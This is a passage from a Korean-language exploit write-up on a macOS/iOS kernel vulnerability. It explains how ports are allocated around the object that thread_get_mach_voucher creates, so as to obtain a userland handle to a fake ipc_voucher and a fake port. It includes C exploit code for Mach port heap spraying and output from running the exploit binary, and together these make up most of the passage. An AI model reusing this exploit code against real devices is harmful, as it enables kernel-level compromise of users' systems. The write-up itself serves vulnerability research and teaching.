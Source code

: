 이는 이제 우리의 스레드에 저장된 포트가 가짜 `ipc_voucher`를 가리키게 되며, 그 가짜 `ipc_voucher`는 사용자 영역에 할당된 `fakeport`를 가리키게 된다는 것을 의미한다. 

이제 `thread_get_mach_voucher` 호출을 통해 이 바우처/포트에 대한 핸들을 얻으려고 한다. 

이전에 우리는 대상 "p1" 전에 0x2000번 포트가 할당되고, 그 후에 0x1000번 포트가 추가로 할당했다.
따라서 처음에 preport[0x1000]에 MACH_PORT_RIGHT_RECEIVE 권한으로 IPC space에서 새로운 Mach 포트 이름을 할당하고,
**`thread_get_mach_voucher` 호출을 통해 이 바우처/포트에 대한 핸들을 얻은 다음,** 
다시한번 같은 권한으로 postport[0x2000]에 Mach 포트 이름을 할당한다.

```c
    mach_port_t real_port_to_fake_voucher = MACH_PORT_NULL;

    /* 
        alloc'ing ports either side of the kport_t that thread_get_mach_voucher 
        creates will give us much better success rate for guessing the 
        heap address of our pipe buffer-based port 

        someone once said iOS's heap randomization was weak
                            i didn't listen
            then i realised
                    iOS's heap randomization is weak
                                                    ...i should've listened
    */  

    for (int i = 0; i < sizeof(preport) / sizeof(mach_port_t); i++)
    {
        mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &preport[i]);
    }

    /* fingers crossed we get a userland handle onto our 'fakeport' object */
    //printf("pauseing...\n");
    //getchar();
    ret = thread_get_mach_voucher(mach_thread_self(), 0, &real_port_to_fake_voucher);
    INFO("port: 0x%x\n", real_port_to_fake_voucher);

    //printf("thread_get_mach_voucher called, port printed...\n");
    //getchar();

    for (int i = 0; i < sizeof(postport) / sizeof(mach_port_t); i++)
    { 
        mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &postport[i]);
    }
```

핸들을 얻어오는데 성공했다면, ipc_voucher에 힙 스프레이하는데 성공한것이다!

```c
seos-iMac-Pro% ./exp  
[*] page size: 0x1000, kr=(os/kern) successful
[*] IOSurface_init success, IOSurface_id=0x1
[*] total pipes created: 1280
[*] got gc at 15 -- breaking, t1-t0: 23916761
[*] IOSurface_set_value ret: 1
[*] port: 0x114607
```
